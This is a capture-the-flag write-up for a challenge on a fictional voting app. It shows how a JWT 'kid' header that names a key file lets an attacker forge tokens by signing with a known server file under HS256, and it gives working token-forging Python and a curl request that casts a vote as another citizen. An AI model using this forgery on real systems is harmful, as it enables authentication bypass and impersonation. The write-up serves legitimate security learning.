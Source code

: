 # The voting logs ain't making sense
Most people probably managed to solve this one, and probably solved it using the intended method, however I ended up solving this one before doing the intended method for *I can be anyone!* and then used the same method to solve both challenges. This is how I did *I can be anyone!* the hard way.
### What We Need
The objective of the challenge is to submit a vote for the "CIT1337" user. For *I can be anyone!* the intended method is to obtain a JWT for the "CIT100" user from the `/generate-qr` endpoint. This method doesn't work for the CIT1337 user as a vote has already been recorded in the database. I believe the intended method for this challenge is to use an algorithm switching attack using the JWT for the CIT100 user. Instead, as the `decode_jwt_token` function allows you to specify the public key path in the `kid` header, I used a known file on the server with a symmetric algorithm to encode my own JWT.
### Encoding a Custom Token
For the symmetric key file, I used a file we've been provided that should be the same on the server: the `app.py` file. We just need to read this file in, and use it as a key in the `jwt.encode` function, using the `HS256` algorithm. Our script will look like this:
```python
import jwt
import os
from datetime import datetime, timedelta

def create_jwt_token(citizen_id, name, state, key_path, key):
    payload = {
        "citizenId": citizen_id,
        "name": name,
        "state": state,
        "vote_identifier": os.urandom(32).hex(),
        "iat": int(datetime.now().timestamp()),
        "exp": int((datetime.now() + timedelta(hours=24)).timestamp())
    }

    headers = {"kid": key_path}

    token = jwt.encode(
        payload,
        key,
        algorithm="HS256",
        headers=headers
    )

    return token

# Path to app.py locally
with open('backend-codebase/app.py', "r") as key_file:
    key = key_file.read()

print(create_jwt_token("CIT1337", "Jane Doe", "Izzi", "/app/app.py", key))
```
Then we use the resulting JWT to call the `/submit-vote` endpoint:
```shell
$ curl http://mobile-app.commission.freedonia.vote/api/voting/submit-vote \
> -H "Content-Type: application/json" \
> -H "Authorization: Bearer <Your JWT>" \
> --data '{"party": "test party"}'
{"citizen_id":"CIT1337","message":"Vote submitted successfully","party":"test party","state":"Izzi","success":true,"the_voting_logs_aint_making_sense_flag":"cysea{you_got_to_be_KIDding_me}"}
```
You can also solve *I can be anyone!* by changing the CIT1337 value to CIT100 when generating the token, and submitting again using the new JWT.